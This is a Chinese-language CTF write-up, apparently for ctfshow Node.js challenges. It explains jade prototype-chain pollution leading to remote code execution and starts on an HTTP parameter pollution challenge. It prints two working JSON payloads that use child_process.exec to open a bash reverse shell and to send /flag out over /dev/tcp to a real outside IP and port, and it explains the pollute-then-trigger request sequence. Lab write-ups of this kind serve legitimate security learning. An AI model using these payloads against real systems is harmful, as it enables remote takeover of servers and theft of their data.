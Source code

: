 分析可以看：
[几个node模板引擎的原型链污染分析 | L0nm4r (lonmar.cn)](https://lonmar.cn/2021/02/22/几个node模板引擎的原型链污染分析/)
[ctfshow nodejs篇 - TARI TARI](https://tari.moe/2021/05/04/ctfshow-nodejs/)

看完可以知道，jade本身是没有漏洞的，但原型链污染的存在再加上模版渲染就出现了漏洞

payload：

```json
{"__proto__":{"__proto__":{"compileDebug":1,"type":"Code","self":1,"title":"tari","line":"global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.217.40/6666>&1\"')"}}}
```

重点是content-type要改为application/json，然后发两次包，一次污染，一次触发就可以rce
![](https://i.loli.net/2021/09/08/Fb7xMTtJVWEqv38.png)

但是发现弹的shell卡住了，只能一条条命令的执行：

```json
{"__proto__":{"__proto__": {"type":"Block","nodes":"","compileDebug":1,"self":1,"line":"global.process.mainModule.require('child_process').exec('bash -c \"cat /flag >& /dev/tcp/119.3.217.40/6666>&1\"')"}}}
```

![](https://i.loli.net/2021/09/08/Oo7Ais9UDraIdvM.png)

343过滤了一些东西，但是上面的payload还是可以打通，感兴趣可以看一下源码



## 344 HPP

> ```js
> router.get('/', function(req, res, next) {
> res.type('html');
> var flag = 'flag_here';
> if(req.url.match(/8c|2c|\,/ig)){
> 	res.end('where is flag :)');
> }
> var query = JSON.parse(req.query.query);
> if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
> 	res.end(flag);
> }else{
> 	res.end('where is flag. :)');
> }
> 
> });
> ```
>
> 存在过滤： url 中不能包含大小写的 `8c`、`2c` 和 `,逗号`

正常来说，我们只需要传入：

```json
?query={"name":"admin","password":"ctfshow","isVIP":"true"}
```
